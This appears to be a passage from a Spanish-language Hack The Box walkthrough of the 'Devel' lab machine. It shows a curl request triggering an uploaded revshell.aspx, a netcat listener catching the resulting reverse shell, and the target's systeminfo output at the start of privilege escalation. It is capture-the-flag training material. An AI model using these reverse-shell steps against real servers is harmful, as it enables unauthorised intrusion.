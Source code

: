 ```bash
curl -s -X GET "http://10.10.10.5/revshell.aspx"
```
<br>
3 - Recibimos la conexión.

```shell
❯ rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.5] 49181
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```

## ESCALADA DE PRIVILEGIOS
<br>
Una vez tenemos la shell, hacemos `systeminfo` para observar a que nos enfrentamos.

```
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 
System Boot Time:          5/9/2022, 12:03:54 
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.504 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.576 MB
Virtual Memory: In Use:    565 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::58c0:f1cf:abc6:bb9e
                                 [03]: dead:beef::85fa:bd6b:8264:8a30
                                 [04]: dead:beef::58c0:f1cf:abc6:bb9e

```
